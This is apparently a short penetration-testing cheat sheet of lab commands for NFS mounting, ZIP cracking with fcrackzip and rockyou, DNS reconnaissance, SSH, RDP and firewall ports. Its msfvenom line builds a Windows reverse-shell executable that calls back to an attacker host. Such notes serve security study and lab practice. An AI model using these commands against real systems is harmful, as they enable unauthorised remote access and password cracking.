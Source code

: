 ```
Command : mkdir /mnt/dev
Command : mount -t nfs 192.168.205.132/srv/nfs /mnt/dev
```

```
Now will make a directory to mount this file share (i.e. /srv/nfs )
will cd to /mnt (i.e. will have a by default directory named mnt )
where t is tack and nfs is the type 
```


<h2>Crack ZIP</h2>
```
 fcrackzip -v 
```

```
 fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
```


<h2>MS Venom</h2>
```
Command : msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.205.128 LPORT=7777 -f exe > Wise.exe
```
where p is payload and f is filetype -o/> for output file



<h2>Dnsrecon </h2>
```
Command : dnsrecon -r 127.0.0.0/24 -n 192.168.205.134 -d blah
```

```
dnsrecon -r 10.10.10.179 -d megacorp.local
```

```
As there is dns record named blackpearl.tcm and have to add that in our Dns and etc/hosts file
Command : nano /etc/hosts (i.e. we have to add the edit the hosts file and not host)
And add 
192.168.205.134 blackpearl.tcm and save it 
```


<h2>SSH </h2>
```
 ssh -p 22 username@<ip_Address>
```


<h2>RDP </h2>
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.132.76 /u:User_name /p:'password'
```

<h2>Firewall</h2>
the port which should be greater than 15000.
```
firewall-cmd --zone=public --add-port 44444/tcp
```
